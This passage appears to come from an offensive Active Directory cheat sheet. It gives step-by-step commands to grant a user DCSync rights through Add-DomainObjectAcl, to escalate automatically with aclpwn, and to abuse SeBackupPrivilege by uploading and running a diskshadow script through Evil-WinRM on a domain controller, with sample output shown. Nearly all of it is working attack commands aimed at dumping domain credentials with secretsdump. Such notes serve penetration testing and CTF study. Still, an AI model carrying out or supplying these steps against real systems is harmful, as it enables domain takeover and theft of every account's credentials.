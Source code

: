 \[2]

```powershell
$secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)};
```

\[3]

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; 
```

\[4]

```powershell
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'username' -TargetIdentity 'domain.local\Domain Admins' -Rights DCSync
```

After performing the above, you can execute `secretsdump` as illustrated in method one.

#### Method three

**Automated**

\[1]

```
sudo git clone https://github.com/fox-it/aclpwn.py
```

\[2]

```
aclpwn -f username -t domain.local --domain domain.local --server ip
```

After performing the above, you can execute `secretsdump` as illustrated in method one.

### Exploiting SeBackupPrivilege

#### Using the diskshadow method and powershell

**creating the diskshadow file**

```
root@kali$ cat diskshadow.txt
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h: 
```

**uploading and executing the diskshadow file**

```
*Evil-WinRM* PS C:\Users\xyan1d3> mkdir C:\tmp 
*Evil-WinRM* PS C:\tmp> upload diskshadow.txt

*Evil-WinRM* PS C:\tmp> diskshadow.exe /s c:\tmp\diskshadow.txt

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  HAVEN-DC,  7/16/2021 3:45:19 PM

-> set metadata C:\tmp\tmp.cabs
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {29b531e8-3c00-49f9-925d-5e1e3937af13} set as environment variable.
```